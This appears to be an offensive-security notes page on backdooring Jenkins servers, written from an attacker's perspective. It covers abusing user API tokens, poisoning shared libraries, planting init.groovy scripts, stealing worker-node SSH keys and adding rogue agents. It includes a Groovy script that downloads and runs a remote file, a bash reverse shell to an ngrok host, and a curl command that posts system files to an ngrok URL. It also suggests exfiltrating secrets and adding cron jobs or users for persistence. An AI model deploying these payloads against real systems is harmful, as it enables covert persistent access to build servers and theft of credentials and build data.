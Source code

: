 # Backdooring

- Backdooring helps attacker to gain access over systems over long period of time ( sometimes bypassing the security checks )
- A higher level privileges might be required to do the changes in configuration



## User issued Jenkins API Tokens

- It is possible for users to generate their own API tokens.
- Can be used to bypass other authentication process ( Form based Authentication / 2FA authentication )
- Usually undected ( unless the usage count is not tracked )
- As an attacker we need to make sure, we need to give right priviliges to these compromised users in case Matrix Authorization Strategy is enabled.

```
curl http://username:token@127.0.0.1:8080
```
<img src="api-token-access.png">

## Using Shared Libraries

- Jenkins shared library is popular where large number of jenkins jobs or pipelines uses a repeated code in pipeline script. 
- The developers creates certain modular functions containing the repetitive code and then reuses across various projects/pipelines/jobs.
- Personal Research : https://oxhat.blogspot.com/2022/07/attacking-backdooring-and-exfiltrating.html
- There are 2 ways we can backdoor the shared pipelines
  1. Add a backdoor inside a shared library codebase ( Jenkins Admin Access Not Required )
``` Groovy
@Library("shared-libraries") _
pipeline{
    agent any
    stages {
        stage("example"){
            steps{
                sh "echo Just a job2"
                helloWorld(name:"User2",dayOfWeek:"Tuesday")
            }
        }
    }
}
```
  - <img src="shared-library-code.png">
  3. Change the shared library location to an attaker controlled shared library ( Jenkins Admin Access Required )
  - <img src="shared-library-conf.png">

## Groovy init scripts

- We can try this technique both from pipeline / after controller's compromise.
- We need to add ```init.groovy``` file with our payload at home directory ( the directory that contains other config files pf Jenkins, sometimes referred as $JENKINS_HOME )
- To trigger this, we would need a restart.
- We have couple of options what we can do with our backdoor scripts
  - Get a reverse shell - From my personal research I found my payloads / the ones from internet blocked the Jenkins from rebooting. This is because Jenkins is waiting for the init.groovy to complete before it can proceed. If you have a non blocking playload do let me know.
init.groovy
```
"wget -o revshell.sh  http://https://gist.githubusercontent.com/dibsy/temp-cmd.txt".execute()
"sh revshell.sh".execute()
```
revshell.sh
```
bash -i >& /dev/tcp/6.tcp.eu.ngrok.io/13520 0>&1
```
  - Exfiltrate data - You can exfiltrate system files
  - Automate a process to exfiltrate all jenkins configuration files, secrets,
exfil.groovy
```
"curl -X POST https://6aee-91-166-172-59.ngrok-free.app -d @/etc/hosts".execute()
```
  - Use other persistent techniques
    - Add a cronjob
    - Add another user

## Worker-Node SSH Keys

- We can dump the SSH keys from the Jenkins Controller
- Once we have the SSH keys we can montitor the logon events and exfiltrate the build data or snoop on it for debug logs or credentials.

## Addling Malicious Worker-Node 

- In this process we update / add a new configuration with an attacker controller worker node.
- We can update the Worker-Node configuration to point to that node.
- This is possible either adding a new agent or updating the ssh keys used for configuration.

<img src="configure-agent.png">

